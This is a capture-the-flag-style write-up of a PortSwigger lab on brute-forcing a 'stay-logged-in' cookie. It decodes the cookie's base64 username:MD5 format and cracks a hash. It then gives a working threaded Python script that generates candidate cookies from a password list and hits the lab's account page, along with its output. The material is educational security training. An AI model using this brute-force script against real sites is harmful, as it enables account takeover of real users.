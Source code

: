 # Brute-forcing a stay-logged-in cookie | Dec 22, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie), you'll learn: Brute-forcing a stay-logged-in cookie! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-9/images/Pasted%20image%2020221222032100.png)

In here, we can see that there is a **`Stay logged in` checkbox**.

**Let's try to login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-9/images/Pasted%20image%2020221222032341.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-9/images/Pasted%20image%2020221222032405.png)

When we click the `Log in` button, **it'll send a POST request to `/login`, with parameter `username`, `password`, and `stay-logged-in`.**

Also, it sets a new cookie called `stay-logged-in`, and **the value looks like is base64 encoded!**

**Let's try to base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

**Hmm... Looks like the format is `username:password_hash`.**

**And that hash seems to be MD5. Let's use `hash-identifier` to verify that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# hash-identifier '51dc30ddc473d43a6011e9ebba6ca770' 
[...]
Possible Hashs:
[+] MD5
[...]
```

Yep, it's MD5 hash.

How about cracking it?

**An online tool called [CrackStation](https://crackstation.net/) may help us:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-9/images/Pasted%20image%2020221222032829.png)

Nice! The MD5 hash is the `wiener`'s password!

**Armed with above information, we can try to brute force user `carlos` password!**

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
from hashlib import md5
from base64 import b64encode

def fetchPassword(filename):
    listStayloggedinCookie = list()

    with open(filename) as fd:
        for line in fd:
            password = line.strip().encode('utf-8')
            MD5Hash = md5(password).hexdigest()
            base64Encoded = b64encode(f'carlos:{MD5Hash}'.encode('utf-8'))

            listStayloggedinCookie.append(base64Encoded)

    return listStayloggedinCookie

def sendRequest(url, cookieValue):
    cookie = {
        'session': 'h826pmhwmUE0tzA8p8tCgCh41CmBJTrU',
        'stay-logged-in': cookieValue
    }

    myaccountRequestText = requests.get(url, cookies=cookie).text

    if 'Log in' not in myaccountRequestText:
        print(f'[+] Found cookie: {cookieValue}')

def main():
    url = 'https://0a080047046d799ec0a38150005b0090.web-security-academy.net/my-account'

    passwordFileName = './auth_password.txt'
    listStayloggedinCookie = fetchPassword(passwordFileName)

    for cookieValue in listStayloggedinCookie:
        thread = Thread(target=sendRequest, args=(url, cookieValue.decode('ascii')))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password_cookie.py
[+] Found cookie: Y2FybG9zOjBhY2Y0NTM5YTE0YjNhYTI3ZGVlYjRjYmRmNmU5ODlm
```

- Found `carlos` `stay-logged-in` cookie: `Y2FybG9zOjBhY2Y0NTM5YTE0YjNhYTI3ZGVlYjRjYmRmNmU5ODlm`

**Let's change our `stay-logged-in` cookie value to that:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-9/images/Pasted%20image%2020221222040631.png)

**Then go to `/my-account`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-9/images/Pasted%20image%2020221222040705.png)

We're user `carlos`!

# What we've learned:

1. Brute-forcing a stay-logged-in cookie